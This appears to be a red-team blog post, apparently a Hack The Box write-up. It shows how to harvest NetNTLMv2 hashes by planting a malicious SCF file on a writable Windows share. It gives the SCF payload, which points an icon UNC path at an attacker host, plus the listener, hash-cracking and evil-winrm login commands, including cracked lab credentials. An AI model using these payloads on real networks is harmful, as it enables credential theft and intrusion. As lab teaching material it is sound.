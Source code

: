 ```yaml
---
title:  "using a scf file to gather hashes"
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: SMB-SCF  File Attacks(NetNTLMv2 hash(challenge) grab)
categories:
  - Red-Teaming
toc: true
---
```


Have you ever been on a internal network assessment and discovered an unauthenticated writable Windows-based file share? Well, in addition to finding potentially sensitive information, you can abuse this to gather user hashes from users who are browsing the file share.

## Gathering Hashes
It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer.
However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack.

## Create a file
The code  can be placed inside a text file which then needs to be planted into a network share.

Saving as SCF file will make the file to be executed when the user will browse the file

Adding the @ symbol in front of the filename will place the file.scf on the top of the share drive.
```
[shell]
Command=2
IconFile=\\10.10.16.2\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
Replace with your IP address of where you have Responder listening.

<img src="/img/fci/pay.PNG" alt="Getting-gz" width="800" height="200"> 

Next upload the file into the Desktop within the Public Folders.
The Public/Desktop folder is accessed every time any users logs in.
Therefore when the user logs in, the icon is requested from our attackers box, 
a challenge request is requested by the attacker, a challenger response is then returned to use with the NetNTLMv2.

## set listener 
set listener  to capture the hashes of the users that will browse the share
```
impacket-smbserver -debug -smb2support share /home/nored0x/Desktop/HTB/driver     
```
<img src="/img/fci/listner.PNG" alt="Getting-gz" width="800" height="200"> 

When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key

<img src="/img/fci/hash.PNG" alt="Getting-gz" width="1000" height="400"> 

## crack hash 
```
john hash -w=/usr/share/wordlists/rockyou.txt
```

<img src="/img/fci/john.PNG" alt="Getting-gz" width="800" height="200"> 


## connect with evil-winrm
```
./evil-winrm.rb -i 10.10.11.106 -u tony -p liltony 
download tool:https://github.com/Hackplayers/evil-winrm
``` 
 
<img src="/img/fci/connect.PNG" alt="Getting-gz" width="800" height="200"> 
                     
I finished this part waiting me in the next part.

